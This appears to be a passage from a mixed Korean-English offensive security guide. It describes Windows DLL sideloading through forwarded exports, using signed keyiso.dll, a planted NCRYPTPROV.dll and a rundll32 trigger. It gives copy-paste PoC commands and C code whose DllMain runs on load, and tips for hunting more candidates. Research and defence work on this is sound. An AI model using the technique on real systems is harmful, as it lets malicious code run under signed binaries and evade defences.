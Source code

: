 - `TargetDll`이 아직 로드되지 않았으면 로드한다
- 그 안에서 `TargetFunc`를 해결한다

이해해야 할 주요 동작:
- If `TargetDll` is a KnownDLL, it is supplied from the protected KnownDLLs namespace (e.g., ntdll, kernelbase, ole32).
- If `TargetDll` is not a KnownDLL, the normal DLL search order is used, which includes the directory of the module that is doing the forward resolution.

이를 통해 간접적인 sideloading primitive가 가능해집니다: 함수가 non-KnownDLL 모듈 이름으로 포워딩되는 signed DLL을 찾은 다음, 해당 signed DLL과 동일한 디렉터리에 포워딩 대상 모듈 이름과 정확히 일치하는 attacker-controlled DLL을 배치합니다. 포워딩된 export가 호출되면, 로더는 포워드를 해결하고 동일한 디렉터리에서 당신의 DLL을 로드하여 DllMain을 실행합니다.

Example observed on Windows 11:
```
keyiso.dll KeyIsoSetAuditingInterface -> NCRYPTPROV.SetAuditingInterface
```
`NCRYPTPROV.dll`은 KnownDLL이 아니므로 일반 검색 순서로 해결됩니다.

PoC (copy-paste):
1) 서명된 시스템 DLL을 쓰기 가능한 폴더로 복사
```
copy C:\Windows\System32\keyiso.dll C:\test\
```
2) 같은 폴더에 악성 `NCRYPTPROV.dll`을(를) 배치하세요. 최소한의 DllMain만으로 코드 실행이 가능하며; DllMain을 트리거하기 위해 forwarded function을 구현할 필요는 없습니다.
```c
// x64: x86_64-w64-mingw32-gcc -shared -o NCRYPTPROV.dll ncryptprov.c
#include <windows.h>
BOOL WINAPI DllMain(HINSTANCE hinst, DWORD reason, LPVOID reserved){
if (reason == DLL_PROCESS_ATTACH){
HANDLE h = CreateFileA("C\\\\test\\\\DLLMain_64_DLL_PROCESS_ATTACH.txt", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
if(h!=INVALID_HANDLE_VALUE){ const char *m = "hello"; DWORD w; WriteFile(h,m,5,&w,NULL); CloseHandle(h);}
}
return TRUE;
}
```
3) 서명된 LOLBin으로 포워딩을 트리거:
```
rundll32.exe C:\test\keyiso.dll, KeyIsoSetAuditingInterface
```
Observed behavior:
- rundll32 (서명됨)이 side-by-side `keyiso.dll` (서명됨)을 로드합니다
- `KeyIsoSetAuditingInterface`를 해석하는 동안, 로더는 forward를 따라 `NCRYPTPROV.SetAuditingInterface`로 이동합니다
- 그 다음 로더는 `C:\test`에서 `NCRYPTPROV.dll`을 로드하고 그 `DllMain`을 실행합니다
- 만약 `SetAuditingInterface`가 구현되어 있지 않다면, `DllMain`이 이미 실행된 이후에야 "missing API" 오류가 발생합니다

Hunting tips:
- 대상 모듈이 KnownDLL이 아닌 forwarded exports에 집중하세요. KnownDLLs는 `HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs` 아래에 나열됩니다.
- 다음과 같은 도구로 forwarded exports를 열거할 수 있습니다:
```
dumpbin /exports C:\Windows\System32\keyiso.dll
# forwarders appear with a forwarder string e.g., NCRYPTPROV.SetAuditingInterface
```
- 후보를 찾기 위해 Windows 11 forwarder 인벤토리를 확인하세요: https://hexacorn.com/d/apis_fwd.txt
